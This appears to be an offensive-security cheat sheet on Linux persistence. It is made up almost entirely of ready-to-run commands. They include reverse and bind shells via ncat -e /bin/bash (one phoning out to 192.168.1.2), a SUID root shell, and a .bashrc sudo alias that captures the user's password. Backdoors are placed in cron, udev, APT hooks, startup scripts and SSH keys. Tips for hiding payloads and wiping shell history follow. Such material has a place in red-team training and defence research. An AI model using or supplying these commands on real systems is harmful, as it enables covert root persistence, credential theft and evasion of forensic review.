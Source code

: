 # Linux - Persistence

## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab (Reverse shell to 192.168.1.2 on port 4242)

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring an user's bash_rc (FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

## Backdooring a startup service

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Backdooring an user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Tips

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```bash
#[2J[2J[2J[2H[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Clear the last line of the history.

```bash
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history

```bash
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writeable

```bash
/var/tmp/
/tmp/
/dev/shm/
```

## References

* [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
* [https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/](https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/)
* [http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html](http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html)
* [http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/](http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/)
* [Pouki from JDI](#no_source_code)